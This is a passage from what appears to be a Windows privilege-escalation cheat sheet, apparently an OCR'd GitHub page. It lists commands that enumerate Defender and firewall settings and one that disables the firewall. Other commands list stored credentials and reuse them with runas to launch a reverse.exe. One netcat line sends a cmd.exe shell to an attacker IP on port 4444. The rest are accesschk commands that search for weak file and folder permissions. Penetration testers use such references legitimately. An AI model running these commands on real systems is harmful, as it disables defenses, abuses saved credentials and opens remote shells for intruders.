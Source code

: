 ```
sc query windefend 
netsh advfirewall firewall dump
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
netsh firewall show state (show firewall running or stopped)
netsh firewall show config (show firewall configuration)

netsh firewall set opmode disable # Disable firewall
```

* **Scheduled Tasks**

```
schtasks /query /fo LIST /v
```

* Mount Information
  * `mountvol`

## Escalation Techniques

**Service Account Priv Esc (Token Impersonation)**

* whoami /priv

**Run As :**

Use the `cmdkey` to list the stored credentials on the machine.

```
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Using `runas` with a provided set of credential.

```bash
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

**Access check :**

* `accesschk.exe -ucqv [service_name] /accepteula`
* `accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)`
* _**Find all weak folder permissions per drive.**_
  * `accesschk.exe /accepteula -uwdqs Users c:\`
  * `accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\`
* _**Find all weak file permissions per drive.**_
  * `accesschk.exe /accepteula -uwsv "Everyone" "C:\Program Files"`
  * `accesschk.exe /accepteula -uwqs Users c:\*.*`
  * `accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*`
* _**Powershell**_`:`
